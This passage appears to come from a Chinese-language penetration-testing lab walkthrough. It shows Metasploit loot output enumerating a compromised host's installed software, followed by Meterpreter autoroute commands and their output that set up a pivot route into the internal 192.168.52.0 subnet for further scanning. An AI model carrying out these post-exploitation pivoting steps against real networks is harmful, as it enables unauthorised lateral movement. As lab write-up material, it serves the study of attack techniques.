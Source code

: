 ```
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2019 X64 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.20.27508         14.20.27508
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
 Mozilla Firefox 69.0.1 (x86 zh-CN)                                  69.0.1
 Mozilla Maintenance Service                                         68.0.2
 Nmap 7.80                                                           7.80
 Notepad++ (32-bit x86)                                              7.7.1
 Npcap 0.9983                                                        0.9983
 OpenVPN 2.4.7-I603                                                  2.4.7-I603
 Python 2.7 (64-bit)                                                 2.7.150
 TAP-Windows 9.21.2                                                  9.21.2
 VMware Tools                                                        11.0.6.15940789
 WinPcap 4.1.3                                                       4.1.0.2980
 WinRAR 5.71 (64-位)                                                  5.71.0
 Wireshark 3.0.4 32-bit                                              3.0.4


[+] Results stored in: /root/.msf4/loot/20220811064952_default_192.168.220.138_host.application_850045.txt
```



> 发现nmap，可以直接利用，对其内网进行扫描
>
> 但是在实际环境当中，目标计算机一般不会自带nmap，所以模拟真实的环境，先把流量代理出来，利用攻击机自身的工具，去对内网进行一个扫描

## 内网渗透

添加路由

```
meterpreter > run autoroute -s 192.168.52.0 255.255.255.0

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.52.0/255.255.255.0...
[+] Added route to 192.168.52.0/255.255.255.0 via 192.168.220.138
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.52.0       255.255.255.0      Session 2

```
